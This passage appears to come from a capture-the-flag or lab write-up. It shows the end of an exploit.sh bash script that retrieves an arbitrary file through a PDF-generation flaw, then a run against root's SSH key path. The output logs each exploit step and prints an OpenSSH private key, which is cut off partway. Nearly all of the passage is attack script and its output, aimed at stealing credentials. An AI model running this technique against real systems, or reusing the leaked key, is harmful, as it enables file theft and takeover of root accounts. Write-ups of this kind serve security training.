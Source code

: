 ```bash
# Try to read file
echo "[+] File with path "$1" should now be available at: `pwd`/${1##*/}!"
echo "[*] Trying to open file..."
cat "./${1##*/}" 2>/dev/null

# Display error msg if file could not be opened
if [ $? -ne 0 ]
then
	echo -e "[-] File does not seem to be available at `pwd`/${1##*/}...\nPlease check the inputted file-path and try again!"
fi

# Read pdf file
#xdg-open http://127.0.0.1:8000/files/result.pdf 1>/dev/null 2>/dev/null
```

Now let us try to read root's ssh-key (if available).

```bash
root@darkness:~# bash exploit.sh "/root/.ssh/id_rsa"
[*] Creating table...
[*] Inserting /root/.ssh/id_rsa into table...
[*] Triggering pdf creation...
[*] Downloading pdf...
[*] Extracting attachments of pdf...
[*] Cleaning pdf-file...
[+] File with path /root/.ssh/id_rsa should now be available at: /root/id_rsa!
[*] Trying to open file...
-----BEGIN OPENSSH PRIVATE KEY-----
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
```
